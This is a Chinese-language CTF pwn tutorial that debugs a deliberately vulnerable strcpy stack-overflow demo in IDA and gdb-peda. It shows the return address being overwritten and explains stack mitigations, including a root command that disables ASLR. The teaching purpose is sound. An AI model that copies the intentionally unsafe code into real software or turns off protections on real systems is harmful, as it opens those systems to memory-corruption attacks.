




Author：wnagzihxain
Mail：tudouboom@163.com
CTF的Pwn题好多都是Linux的，非常有意思，以前跟着师傅们学了些，在此简单的写几篇笔记，一来自己对这部分知识有个总结，二来能给刚入门的同学一点参考，不空谈各种奇技淫巧，主要就是完整的调试步骤，当然，奇技淫巧这部分也相当重要，我会在后面给出一些思路不错的好文章，有兴趣的同学可以参考
使用的环境是
假设大家都有基础C语言的编程经验啊！！！！！！
写一个简单的拷贝字符串函数，为了汇编出来的流程正常点，使用传参的方法
#include <stdio.h>
#include <string.h>
void Overflow(char temp[])
{
char buffer[12];
strcpy(buffer, temp);
printf("%s\n", buffer);
}
int main()
{
char temp[12] = "AAAAAAAAAA";
Overflow(temp);
return 0;
}
使用没有栈保护的模式编译出可执行文件，同时使用-fno-builtin禁止把printf()转为puts()
wnagzihxain@toT0C:~$ gcc -fno-stack-protector -fno-builtin -o Demo Demo.c
wnagzihxain@toT0C:~$ ./Demo
AAAAAAAAAA
运行效果是不错的，使用IDA静态分析
把main()函数拷贝出来
.text:0804846A ; =============== S U B R O U T I N E =======================================
.text:0804846A
.text:0804846A ; Attributes: bp-based frame
.text:0804846A
.text:0804846A ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:0804846A public main
.text:0804846A main proc near ; DATA XREF: _start+17o
.text:0804846A
.text:0804846A src = byte ptr -14h
.text:0804846A var_10 = dword ptr -10h
.text:0804846A var_C = dword ptr -0Ch
.text:0804846A var_4 = dword ptr -4
.text:0804846A argc = dword ptr 0Ch
.text:0804846A argv = dword ptr 10h
.text:0804846A envp = dword ptr 14h
.text:0804846A
.text:0804846A lea ecx, [esp+4]
.text:0804846E and esp, 0FFFFFFF0h
.text:08048471 push dword ptr [ecx-4]
.text:08048474 push ebp
.text:08048475 mov ebp, esp
.text:08048477 push ecx
.text:08048478 sub esp, 14h ; 开辟0x14字节的栈空间
.text:0804847B mov dword ptr [ebp+src], 'AAAA' ; 此时ebp+src指向栈顶，连着3句都是在以4字节为单位进行赋值
.text:08048482 mov [ebp+var_10], 'AAAA'
.text:08048489 mov [ebp+var_C], 'AA'
.text:08048490 sub esp, 0Ch ; 再次开辟0x0C的栈空间，抬高栈顶
.text:08048493 lea eax, [ebp+src] ; eax指向src字符串，ebp+src此时为"AAAAAAAAAA"的首地址
.text:08048496 push eax ; 对src做压栈操作，明显的传参行为
.text:08048497 call Overflow ; 调用Overflow()函数，参数为src字符串
.text:0804849C add esp, 10h
.text:0804849F mov eax, 0 ; return 0;
.text:080484A4 mov ecx, [ebp+var_4]
.text:080484A7 leave
.text:080484A8 lea esp, [ecx-4]
.text:080484AB retn
.text:080484AB main endp
跟入调用的Overflow()函数
.text:0804843B
.text:0804843B ; =============== S U B R O U T I N E =======================================
.text:0804843B
.text:0804843B ; Attributes: bp-based frame
.text:0804843B
.text:0804843B ; int __cdecl Overflow(char *src)
.text:0804843B public Overflow
.text:0804843B Overflow proc near ; CODE XREF: main+2Dp
.text:0804843B
.text:0804843B dest = byte ptr -14h
.text:0804843B src = dword ptr 8
.text:0804843B
.text:0804843B push ebp
.text:0804843C mov ebp, esp
.text:0804843E sub esp, 18h
.text:08048441 sub esp, 8 ; 抬高栈顶
.text:08048444 push [ebp+src] ; src是第二个参数
.text:08048447 lea eax, [ebp+dest] ; 获取dest字符串的首地址
.text:0804844A push eax ; 将dest作为第一个参数压栈
.text:0804844B call _strcpy ; 调用strcpy():--->strcpy(dest, src);
.text:08048450 add esp, 10h ; 这两句降低栈顶8个字节，相当于弹出两个参数
.text:08048453 sub esp, 8
.text:08048456 lea eax, [ebp+dest] ; 将拷贝完的dest字符串首地址传给eax
.text:08048459 push eax ; 将dest字符串作为参数压栈
.text:0804845A push offset format ; "%s\n"
.text:0804845F call _printf ; printf("%s\n", dest);
.text:08048464 add esp, 10h
.text:08048467 nop
.text:08048468 leave
.text:08048469 retn
.text:08048469 Overflow endp
静态分析到这里，两段汇编逻辑还是很清新的
接下里我们使用gdb来动态调试，gdb有一个很好用的插件peda
安装如下
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
启动调试
wnagzihxain@toT0C:~$ gdb Demo
出现各种信息，这个不需要管

可以直接使用start运行函数，也可以使用break(b)设置main()函数入口断点
gdb-peda$ break main
Breakpoint 1 at 0x8048478
使用run(r)运行程序，如果是start就不需要这一步
gdb-peda$ run
Starting program: /home/wnagzihxain/Demo
peda骚气的配色一览无遗

此时在抬高栈顶，分配0x14字节的空间
=> 0x8048478 <main+14>: sub esp,0x14
继续执行相关的有三个命令
此时栈的数据
[------------------------------------stack-------------------------------------]
0000| 0xbfffef54 --> 0xbfffef70 --> 0x1
0004| 0xbfffef58 --> 0x0
0008| 0xbfffef5c --> 0xb7e21637 (<__libc_start_main+247>: add esp,0x10)
0012| 0xbfffef60 --> 0xb7fbb000 --> 0x1b1db0
0016| 0xbfffef64 --> 0xb7fbb000 --> 0x1b1db0
0020| 0xbfffef68 --> 0x0
0024| 0xbfffef6c --> 0xb7e21637 (<__libc_start_main+247>: add esp,0x10)
0028| 0xbfffef70 --> 0x1
查看栈数据examine(x)，后面跟上要打印的长度和格式
gdb-peda$ x/12x $sp
0xbfffef54: 0xbfffef70 0x00000000 0xb7e21637 0xb7fbb000
0xbfffef64: 0xb7fbb000 0x00000000 0xb7e21637 0x00000001
0xbfffef74: 0xbffff004 0xbffff00c 0x00000000 0x00000000
使用next命令单步执行

栈顶抬高后栈的数据，新开辟出来的栈空间已有的数据不用太在意，并没有什么用
[------------------------------------stack-------------------------------------]
0000| 0xbfffef40 --> 0x1
0004| 0xbfffef44 --> 0xbffff004 --> 0xbffff1f5 ("/home/wnagzihxain/Demo")
0008| 0xbfffef48 --> 0xbffff00c --> 0xbffff20c ("LC_PAPER=zh_HK.UTF-8")
0012| 0xbfffef4c --> 0x80484d1 (<__libc_csu_init+33>: lea eax,[ebx-0xf8])
0016| 0xbfffef50 --> 0xb7fbb3dc --> 0xb7fbc1e0 --> 0x0
0020| 0xbfffef54 --> 0xbfffef70 --> 0x1
0024| 0xbfffef58 --> 0x0
0028| 0xbfffef5c --> 0xb7e21637 (<__libc_start_main+247>: add esp,0x10)
接下来3句指令将AAAAAAAAAA存储到栈中
=> 0x804847b <main+17>: mov DWORD PTR [ebp-0x14],0x41414141
0x8048482 <main+24>: mov DWORD PTR [ebp-0x10],0x41414141
0x8048489 <main+31>: mov DWORD PTR [ebp-0xc],0x4141
如果需要再次执行gdb上一句指令，直接回车就可以，走完拷贝字符串指令

再次抬高栈顶
=> 0x8048490 <main+38>: sub esp,0xc
获取AAAAAAAAAA字符串的首地址
=> 0x8048493 <main+41>: lea eax,[ebp-0x14]
执行完后观察EAX寄存器
EAX: 0xbfffef44 ("AAAAAAAAAA")
将字符串AAAAAAAAAA压栈，接着调用Overflow()函数
=> 0x8048496 <main+44>: push eax
0x8048497 <main+45>: call 0x804843b <Overflow>
在执行Call指令时，使用step(s)步入Overflow()函数

跟入后，停在入口

继续使用next(n)命令，抬高栈顶，开辟栈空间给该函数用
=> 0x804843e <Overflow+3>: sub esp,0x18
0x8048441 <Overflow+6>: sub esp,0x8
到压栈操作，虽然这里看不到ebp+0x8处的数据，但是熟悉栈结构的同学应该想得到这是刚刚传进来的参数存储位置

补充一点栈的知识
0x00000000 EBP
0x00000004 RETN
0x00000008 Param1
0x0000000C Param2
0x0000000F Param3
......
执行完后栈的布局，确实是AAAAAAAAAA字符串
[------------------------------------stack-------------------------------------]
0000| 0xbfffef04 --> 0xbfffef44 ("AAAAAAAAAA")
0004| 0xbfffef08 --> 0xb7fbb000 --> 0x1b1db0
0008| 0xbfffef0c --> 0xfd57
0012| 0xbfffef10 --> 0xffffffff
0016| 0xbfffef14 --> 0x2f ('/')
0020| 0xbfffef18 --> 0xb7e15dc8 --> 0x2b76 ('v+')
0024| 0xbfffef1c --> 0xb7fd6858 --> 0xb7e09000 --> 0x464c457f
0028| 0xbfffef20 --> 0x8000
接下来获取ebp-0x14指针，将其压栈，并调用strcpy()函数
=> 0x8048447 <Overflow+12>: lea eax,[ebp-0x14]
0x804844a <Overflow+15>: push eax
0x804844b <Overflow+16>: call 0x8048310 <strcpy@plt>
执行完后，ebp-0x14指向的数据为AAAAAAAAAA

拷贝完降低栈顶，这两句等于降低0x08字节
=> 0x8048450 <Overflow+21>: add esp,0x10
0x8048453 <Overflow+24>: sub esp,0x8
获取两个指针，当参数压栈，调用printf()
=> 0x8048456 <Overflow+27>: lea eax,[ebp-0x14]
0x8048459 <Overflow+30>: push eax
0x804845a <Overflow+31>: push 0x8048530
0x804845f <Overflow+36>: call 0x8048300 <printf@plt>
打印出第一个参数
gdb-peda$ print (char *)0x8048530
$1 = 0x8048530 "%s\n"
还有一种打印的方法
gdb-peda$ x/s 0x8048530
0x8048530: "%s\n"
打印

接下来就是降低栈顶保持栈平衡，退出函数了
回到代码层面，我们传入一个10字节的字符串变量，直接拷贝给了buffer，这里没有考虑传入的字符串长度，如果我们传入的是12字节，16字节，100字节呢？
void Overflow(char temp[])
{
char buffer[12];
strcpy(buffer, temp);
printf("%s\n", buffer);
}
重新跑起来，找到拷贝字符串时的栈布局
拷贝前
0xbfffef00: 0xbfffef14 0xbfffef44 0xb7fbb000 0x0000fd57
0xbfffef10: 0xffffffff 0x0000002f 0xb7e15dc8 0xb7fd6858
0xbfffef20: 0x00008000 0xb7fbb000 0xbfffef58 0x0804849c
0xbfffef30: 0xbfffef44 0x00000000 0xb7e37a50 0x080484fb
0xbfffef40: 0x00000001 0x41414141 0x41414141 0x00004141
0xbfffef50: 0xb7fbb3dc 0xbfffef70 0x00000000 0xb7e21637
0xbfffef60: 0xb7fbb000 0xb7fbb000 0x00000000 0xb7e21637
0xbfffef70: 0x00000001 0xbffff004 0xbffff00c 0x00000000
拷贝后，注意小端序的问题
gdb-peda$ x/32x $sp
0xbfffef00: 0xbfffef14 0xbfffef44 0xb7fbb000 0x0000fd57
0xbfffef10: 0xffffffff 0x41414141 0x41414141 0xb7004141
0xbfffef20: 0x00008000 0xb7fbb000 0xbfffef58 0x0804849c
0xbfffef30: 0xbfffef44 0x00000000 0xb7e37a50 0x080484fb
0xbfffef40: 0x00000001 0x41414141 0x41414141 0x00004141
0xbfffef50: 0xb7fbb3dc 0xbfffef70 0x00000000 0xb7e21637
0xbfffef60: 0xb7fbb000 0xb7fbb000 0x00000000 0xb7e21637
0xbfffef70: 0x00000001 0xbffff004 0xbffff00c 0x00000000
为了直观，我们改为26个大写字母来测试，把数量改为11,那么测试字符串就是ABCDEFGHIJK
同样条件编译运行
wnagzihxain@toT0C:~$ gcc -fno-stack-protector -fno-builtin -o Demo Demo.c
wnagzihxain@toT0C:~$ ./Demo
ABCDEFGHIJK
运行，单步到拷贝指令，下个断点
=> 0x804844b <Overflow+16>: call 0x8048310 <strcpy@plt>
在对应地址下断点
gdb-peda$ b *0x804844b
Breakpoint 2 at 0x804844b
下次直接使用run(r)就可以断在我们设置的断点处而不需要一直单步走到拷贝指令

再来看对栈的操作，先抬高0x18字节，也就是24字节，这个空间是用于整个函数层面，后面又抬高0x08字节，接着将两个参数压栈，后面那两句对栈顶的操作效果就是将栈顶指针降低0x08字节，也就是弹出参数
.text:0804843B push ebp
.text:0804843C mov ebp, esp
.text:0804843E sub esp, 18h
.text:08048441 sub esp, 8 ; 抬高栈顶
.text:08048444 push [ebp+src] ; src是第二个参数
.text:08048447 lea eax, [ebp+dest] ; 获取dest字符串的首地址
.text:0804844A push eax ; 将dest作为第一个参数压栈
.text:0804844B call _strcpy ; 调用strcpy():--->strcpy(dest, src);
.text:08048450 add esp, 10h ; 这两句降低栈顶8个字节，相当于弹出两个参数
.text:08048453 sub esp, 8
此时的栈布局
[------------------------------------stack-------------------------------------]
0000| 0xbfffef00 --> 0xbfffef14 --> 0x2f ('/')(第一个参数)
0004| 0xbfffef04 --> 0xbfffef44 ("ABCDEFGHIJK")(第二个参数)
0008| 0xbfffef08 --> 0xb7fbb000 --> 0x1b1db0 (连着8字节是调用strcpy前抬高的0x08字节)
0012| 0xbfffef0c --> 0xfd57
0016| 0xbfffef10 --> 0xffffffff (第一次抬高栈顶时，ESP的位置)
0020| 0xbfffef14 --> 0x2f ('/')(ebp-0x14指向这里，也就是dest字符串其实地址)
0024| 0xbfffef18 --> 0xb7e15dc8 --> 0x2b76 ('v+')(空)
0028| 0xbfffef1c --> 0xb7fd6858 --> 0xb7e09000 --> 0x464c457f(空)
| ......
| 0xbfffef28 --> 0xbfffef58(此处是EBP，那么ebp-0x14=0xbfffef14)
执行拷贝指令

观察此时栈的布局，栈顶的两个参数此时还未弹出，第一个参数指向的是目标地址，可以观察到此时已经拷贝完成
[------------------------------------stack-------------------------------------]
0000| 0xbfffef00 --> 0xbfffef14 ("ABCDEFGHIJK")
0004| 0xbfffef04 --> 0xbfffef44 ("ABCDEFGHIJK")
0008| 0xbfffef08 --> 0xb7fbb000 --> 0x1b1db0
0012| 0xbfffef0c --> 0xfd57
0016| 0xbfffef10 --> 0xffffffff
0020| 0xbfffef14 ("ABCDEFGHIJK")
0024| 0xbfffef18 ("EFGHIJK")
0028| 0xbfffef1c --> 0x4b4a49 ('IJK')
观察栈的详细数据，注意小端序的问题，观察12个字节的字符串数据的位置，同时注意后面的数据情况
gdb-peda$ x/12x $sp
0xbfffef00: 0xbfffef14 0xbfffef44 0xb7fbb000 0x0000fd57
0xbfffef10: 0xffffffff 0x44434241 0x48474645 0x004b4a49
0xbfffef20: 0x00008000 0xb7fbb000 0xbfffef58 0x0804849c
来修改我们的输入字符串为ABCDEFGHIJKL
#include <stdio.h>
#include <string.h>
void Overflow(char temp[])
{
char buffer[12];
strcpy(buffer, temp);
printf("%s\n", buffer);
}
int main()
{
char temp[13] = "ABCDEFGHIJKL";
Overflow(temp);
return 0;
}
编译运行
wnagzihxain@toT0C:~$ gcc -fno-stack-protector -fno-builtin -o Demo Demo.c
wnagzihxain@toT0C:~$ ./Demo
ABCDEFGHIJKL
记录此时栈布局
gdb-peda$ x/12x $sp
0xbfffef00: 0xbfffef14 0xbfffef43 0xb7fbb000 0x0000fd57
0xbfffef10: 0xffffffff 0x0000002f 0xb7e15dc8 0xb7fd6858
0xbfffef20: 0x00008000 0xb7fbb000 0xbfffef58 0x080484a0
单步执行完拷贝指令，再次记录栈布局
gdb-peda$ x/120x $sp
0xbfffef00: 0x14 0xef 0xff 0xbf 0x43 0xef 0xff 0xbf
0xbfffef08: 0x00 0xb0 0xfb 0xb7 0x57 0xfd 0x00 0x00
0xbfffef10: 0xff 0xff 0xff 0xff 0x41 0x42 0x43 0x44
0xbfffef18: 0x45 0x46 0x47 0x48 0x49 0x4a 0x4b 0x4c
0xbfffef20: 0x00 0x80 0x00 0x00 0x00 0xb0 0xfb 0xb7
0xbfffef28: 0x58 0xef 0xff 0xbf 0xa0 0x84 0x04 0x08
0xbfffef30: 0x43 0xef 0xff 0xbf 0x00 0x00 0x00 0x00
0xbfffef38: 0x50 0x7a 0xe3 0xb7 0xfb 0x84 0x04 0x08
0xbfffef40: 0x01 0x00 0x00 0x41 0x42 0x43 0x44 0x45
0xbfffef48: 0x46 0x47 0x48 0x49 0x4a 0x4b 0x4c 0x00
0xbfffef50: 0xdc 0xb3 0xfb 0xb7 0x70 0xef 0xff 0xbf
0xbfffef58: 0x00 0x00 0x00 0x00 0x37 0x16 0xe2 0xb7
0xbfffef60: 0x00 0xb0 0xfb 0xb7 0x00 0xb0 0xfb 0xb7
0xbfffef68: 0x00 0x00 0x00 0x00 0x37 0x16 0xe2 0xb7
0xbfffef70: 0x01 0x00 0x00 0x00 0x04 0xf0 0xff 0xbf\
由于一地址的数据是0x00，我们尝试加一字节的数据
char temp[14] = "ABCDEFGHIJKLM";
编译运行
wnagzihxain@toT0C:~$ gcc -fno-stack-protector -fno-builtin -o Demo Demo.c
wnagzihxain@toT0C:~$ ./Demo
ABCDEFGHIJKLM
记录栈布局，这里一定要本次调试的数据，虽然一般情况下不会变，但是为了确保万无一失，还是保证每次的数据都是新鲜的好
gdb-peda$ x/12x $sp
0xbfffef00: 0xbfffef14 0xbfffef42 0xb7fbb000 0x0000fd57
0xbfffef10: 0xffffffff 0x0000002f 0xb7e15dc8 0xb7fd6858
0xbfffef20: 0x00008000 0xb7fbb000 0xbfffef58 0x080484a2
执行完拷贝指令，记录栈布局
gdb-peda$ x/120x $sp
0xbfffef00: 0x14 0xef 0xff 0xbf 0x42 0xef 0xff 0xbf
0xbfffef08: 0x00 0xb0 0xfb 0xb7 0x57 0xfd 0x00 0x00
0xbfffef10: 0xff 0xff 0xff 0xff 0x41 0x42 0x43 0x44
0xbfffef18: 0x45 0x46 0x47 0x48 0x49 0x4a 0x4b 0x4c
0xbfffef20: 0x4d 0x00 0x00 0x00 0x00 0xb0 0xfb 0xb7
0xbfffef28: 0x58 0xef 0xff 0xbf 0xa2 0x84 0x04 0x08
0xbfffef30: 0x42 0xef 0xff 0xbf 0x00 0x00 0x00 0x00
0xbfffef38: 0x50 0x7a 0xe3 0xb7 0x0b 0x85 0x04 0x08
0xbfffef40: 0x01 0x00 0x41 0x42 0x43 0x44 0x45 0x46
0xbfffef48: 0x47 0x48 0x49 0x4a 0x4b 0x4c 0x4d 0x00
0xbfffef50: 0xdc 0xb3 0xfb 0xb7 0x70 0xef 0xff 0xbf
0xbfffef58: 0x00 0x00 0x00 0x00 0x37 0x16 0xe2 0xb7
0xbfffef60: 0x00 0xb0 0xfb 0xb7 0x00 0xb0 0xfb 0xb7
0xbfffef68: 0x00 0x00 0x00 0x00 0x37 0x16 0xe2 0xb7
0xbfffef70: 0x01 0x00 0x00 0x00 0x04 0xf0 0xff 0xbf
注意这里，我们最后一个字母M已经写入我们潜意识里定义的栈空间外，但是由于这里属于我们抬高的合法栈空间，并不会对后续指令执行造成影响
0xbfffef20: 0x4d 0x00 0x00 0x00
我们可以继续执行，并没有出错
gdb-peda$ c
Continuing.
ABCDEFGHIJKLM
[Inferior 1 (process 2760) exited normally]
Warning: not running or target is remote
这里对于字符串分配的空间是0x14字节，也就是20字节，同样我们在上面的栈布局中观察出来，只需要20个字节的字符串即可影响EBP的数据，最后还有个\0，我们拿最后这个截断符来修改EBP
char temp[21] = "ABCDEFGHIJKLMNOPQRST";
编译运行，看来很有可能是我们最后那个截断符修改了EBP造成了栈的不平衡
wnagzihxain@toT0C:~$ gcc -fno-stack-protector -fno-builtin -o Demo Demo.c
wnagzihxain@toT0C:~$ ./Demo
ABCDEFGHIJKLMNOPQRST
段错误 (核心已转储)
执行拷贝前记录栈布局
gdb-peda$ x/32x $sp
0xbfffeef0: 0xbfffef04 0xbfffef3b 0xbfffef10 0x08048254
0xbfffef00: 0x00000000 0xbfffefa4 0xb7fbb000 0x0000fd57
0xbfffef10: 0xffffffff 0x0000002f 0xbfffef58 0x080484ae
0xbfffef20: 0xbfffef3b 0xb7fbb000 0xb7fb9244 0xb7e210ec
0xbfffef30: 0x00000001 0x00000000 0x41e37a50 0x45444342
0xbfffef40: 0x49484746 0x4d4c4b4a 0x51504f4e 0x00545352
0xbfffef50: 0xb7fbb3dc 0xbfffef70 0x00000000 0xb7e21637
0xbfffef60: 0xb7fbb000 0xb7fbb000 0x00000000 0xb7e21637
执行完拷贝指令，记录栈布局
gdb-peda$ x/120x $sp
0xbfffeef0: 0x04 0xef 0xff 0xbf 0x3b 0xef 0xff 0xbf
0xbfffeef8: 0x10 0xef 0xff 0xbf 0x54 0x82 0x04 0x08
0xbfffef00: 0x00 0x00 0x00 0x00 0x41 0x42 0x43 0x44
0xbfffef08: 0x45 0x46 0x47 0x48 0x49 0x4a 0x4b 0x4c
0xbfffef10: 0x4d 0x4e 0x4f 0x50 0x51 0x52 0x53 0x54
0xbfffef18: 0x00 0xef 0xff 0xbf 0xae 0x84 0x04 0x08
0xbfffef20: 0x3b 0xef 0xff 0xbf 0x00 0xb0 0xfb 0xb7
0xbfffef28: 0x44 0x92 0xfb 0xb7 0xec 0x10 0xe2 0xb7
0xbfffef30: 0x01 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xbfffef38: 0x50 0x7a 0xe3 0x41 0x42 0x43 0x44 0x45
0xbfffef40: 0x46 0x47 0x48 0x49 0x4a 0x4b 0x4c 0x4d
0xbfffef48: 0x4e 0x4f 0x50 0x51 0x52 0x53 0x54 0x00
0xbfffef50: 0xdc 0xb3 0xfb 0xb7 0x70 0xef 0xff 0xbf
0xbfffef58: 0x00 0x00 0x00 0x00 0x37 0x16 0xe2 0xb7
0xbfffef60: 0x00 0xb0 0xfb 0xb7 0x00 0xb0 0xfb 0xb7
由于字符串变长，EBP也要相应的变化，，同时字符串的地址也都会变化，执行前后的EBP对比，由于是小端序，第一个字节被字符串的截断符覆盖了
EBP: 0xbfffef18 --> 0xbfffef58 --> 0x0
EBP: 0xbfffef18 --> 0xbfffef00 --> 0x0
关键的内存数据，0xbfffef18是EBP
0xbfffef00: 0x00 0x00 0x00 0x00 0x41 0x42 0x43 0x44
0xbfffef08: 0x45 0x46 0x47 0x48 0x49 0x4a 0x4b 0x4c
0xbfffef10: 0x4d 0x4e 0x4f 0x50 0x51 0x52 0x53 0x54
0xbfffef18: 0x00 0xef 0xff 0xbf
至于那种41414141，因为RETN在EBP的后面，我们只需要多填充一些数据，覆盖了RETN，就可以控制EIP，我们这里使用的是AAAA，所以此时的EIP被我们劫持到了0x41414141，这个地址上肯定是没有指令的，gdb+peda帮我们捕获到了这个异常并且输出了一些比较关键的崩溃现场的数据，同时我们也可以手动进行一些崩溃现场数据的提取，比如bt，用于堆栈回溯，查看调用栈，还有堆栈的数据等

二进制攻防发展到现在这个阶段，已经有各种针对漏洞的缓解机制，所以在找到了漏洞后，绕过这些缓解机制也是一个关键的环节，比如Linux的CANARY和Windows的GS，Linux和Windows都有的ASLR，Linux的NX和Windows的DEP，有一点需要着重讲一下，32位的漏洞利用难度和64位不在一个难度等级上
首先使用checksec查看程序开的保护机制
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : Partial
一个个来讲讲，接下来都是理论，虽然我也不是很喜欢理论的东西
这部分详细的描述可以在《Android安全攻防权威指南》找到，大家喜欢的话可以去找找，那本书也不错，推荐阅读
ASLR：全程Address Space Layout Randomization，程序运行的时候，内存地址不固定，每次都不一样，虽然上面我们使用gdb动态调试的时候看到的都是固定的，那是因为gdb在调试的时候会关掉ASLR，一般系统都是开了
查看开没开ASLR，可能有同学只听过0和1，2是什么意思？做好心理准备：增强版ASLR
root@toT0C:/home/wnagzihxain# cat /proc/sys/kernel/randomize_va_space
2
我们root模式下关掉它，就是这么残暴
root@toT0C:/home/wnagzihxain# echo 0 > /proc/sys/kernel/randomize_va_space
root@toT0C:/home/wnagzihxain# cat /proc/sys/kernel/randomize_va_space
0
CANARY：类似Windows下的GS，在调用函数时，会先生成一个Cookie，一个保存在内存中某处，一个插入栈中，溢出的时候会覆盖掉这个Cookie，函数返回的时候会取出存在某处的Cookie对比栈中的Cookie，不一样表示溢出
现在有四种模式可以选择
gcc -fno-stack-protector -o Demo Demo.c //禁用堆栈保护
gcc -fstack-protector -o Demo Demo.c //启用堆栈保护，针对有字符串数组的函数
gcc -fstack-protector-all -o Demo Demo.c //启用堆栈保护，针对所有函数
